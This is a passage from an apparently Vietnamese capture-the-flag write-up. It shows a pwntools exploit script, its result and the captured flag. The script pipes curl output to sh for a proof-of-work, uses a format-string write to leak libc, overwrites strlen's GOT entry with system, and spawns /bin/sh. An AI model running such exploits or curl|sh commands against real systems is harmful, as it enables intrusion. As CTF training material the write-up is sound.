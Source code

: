 ```py
try:
    sol = subprocess.check_output(curl_cmd.decode(), shell=True, executable="/bin/sh",
                                  stderr=subprocess.DEVNULL).strip()
    log.info(f"pow solution: {sol!r}")
    sla(b"solution: ", sol)
except subprocess.CalledProcessError:
    log.warning("Chạy curl|sh thất bại. Bạn có thể chạy thủ công trên máy local:")
    log.warning(curl_cmd.decode())


pl = b'%4829c%14$hn'
pl = pl.ljust(16, b'A')
pl += p64(0x404048)
sla("something: ", pl)

pl2 = b'%281$p'
sla("something: ", pl2)

ru('0x')
leak = r(12)
leak_addr = int(b'0x' + leak, 16)
info(f'leak addr: {hex(leak_addr)}')
libc.address = leak_addr - 0x2a1ca
info(f'libc base: {hex(libc.address)}')
system = libc.symbols['system']
info(f'system: {hex(system)}')

pl3 = fmtstr_payload(12, {exe.got.strlen : system})
sla("something: ", pl3)

sla("something: ", b'/bin/sh\x00')

sl('cat flag')

p.interactive()
```
#### Result

![ảnh](https://hackmd.io/_uploads/r1P2rz7Cle.png)

**Flag**
`CSCV2025{k1m1_n0_4184_64_2ukyun_d0kyun_h45h1r1d35h1}`

---

## Heap NoteS 
![ảnh](https://hackmd.io/_uploads/HJor1f7Agg.png)

### Summary
